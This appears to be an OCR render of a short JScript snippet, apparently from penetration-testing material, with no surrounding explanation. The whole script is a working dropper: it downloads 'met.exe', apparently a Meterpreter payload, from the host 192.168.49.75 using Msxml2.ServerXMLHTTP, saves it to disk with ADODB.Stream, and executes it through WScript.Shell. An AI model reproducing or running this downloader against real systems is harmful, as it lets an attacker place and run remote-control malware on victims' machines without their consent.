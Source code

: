 1

2

var url = "http://192.168.49.75/met.exe"
var Object = WScript.CreateObject('Msxml2.ServerXMLHTTP.6.0');
Object.open('GET', url, false);
Object.send();
if (Object.status == 200)
{
 var Stream = WScript.CreateObject('ADODB.Stream');
 Stream.Open();
 Stream.Type = 1;
 Stream.Write(Object.responseBody);
 Stream.Position = 0;
 Stream.SaveToFile("met.exe", 2);
 Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("met.exe");